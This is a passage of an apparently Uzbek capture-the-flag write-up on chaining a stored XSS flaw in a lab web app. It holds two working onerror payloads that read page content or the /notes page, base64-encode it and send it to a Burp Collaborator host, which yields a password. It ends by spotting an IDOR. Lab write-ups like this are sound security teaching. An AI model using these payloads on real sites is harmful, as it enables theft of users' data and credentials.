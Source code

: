 Lekin XSS orqali cookie ololmaymiz:
![image](https://github.com/user-attachments/assets/09ad1557-ab6b-4f4d-bf07-e58577511a14)

14) Bu degani yoki yangi yo'l topishimiz kerak yoki XSS ni boshqa zaiflik bilan chain qilish kerak, oldingi logic bo'yicha har bitta yangi userda yangi feature bor, demak hozir XSS payload ishga tushirib beryotgan bot keyingi user sessiyasidan foydalansa, yangi featurelarni tekshirib ko'rish kerak:

```
<img src=invalid onerror="
  this.onerror=null;
  var html = document.documentElement.outerHTML;
  var utf8 = unescape(encodeURIComponent(html));
  var b64  = btoa(utf8);
  this.src='https://604dlgcye7llwrdmtsoqmnbl0c63uumib.oastify.com/?d='+encodeURIComponent(b64)
" style="display:none">
```

Bu kod DOM ichida contentlarni oladi:
![image](https://github.com/user-attachments/assets/66266a5b-b9be-430c-b23d-aaa031af04e1)

Keyin base64 qilib umumiy contentni Burp collaboratorga jo'natadi:
![image](https://github.com/user-attachments/assets/1ba4e9d5-f427-4d09-93de-189cc7f12a0d)

Keyingi user sessiyasi uchun yana 2ta yangi feature borligini ko'rsak bo'ladi /notes va /users:
![image](https://github.com/user-attachments/assets/356ce8f7-2356-4e75-aae2-d3716987fdca)

15) Bizga ko'proq /notes sahifasi qiziqroq, page content base64 ko'rinishda keladi, birinchi script /notes page ni fetch yordamida oladi faqat .text ya'ni data qismini va bizga jo'natadi:
```
<img src=x onerror="
  this.onerror=null;
  fetch('/notes').then(r=>r.text()).then(code=>{
    var b64 = btoa(unescape(encodeURIComponent(code)));
    new Image().src='https://604dlgcye7llwrdmtsoqmnbl0c63uumib.oastify.com/?d='+encodeURIComponent(b64);
  });
" style="display:none">
```
Pageni o'zimiz ochib ko'ramiz:
![image](https://github.com/user-attachments/assets/6cae8de6-2ffc-48e1-812d-b81a597e916b)

parol:
![image](https://github.com/user-attachments/assets/b64f1c2a-7ca7-4af0-8b9e-dc5b5b65efa5)

16) Keyingi user aytilishi bo'yicha Team lead yangi teamlead1 user, user paroli bilan kirilganda /users degan yangi feature ko'rish mumkin, u orqali user rolelari o'zgartiriladi:

![image](https://github.com/user-attachments/assets/828f33c9-bb5d-4fff-8a5c-56b9e598a82a)

![image](https://github.com/user-attachments/assets/2f70bce0-e7e2-4bab-8b57-88b7fe87a07f)

Lekin bizga faqat biz allaqachon olib bo'lgan 3ta user ko'rinadi, tizimda 4ta user bor, qiziq tomoni URLda /user/edit/1 path ko'rishimiz mumkin, IDORga o'xshaydi.. 
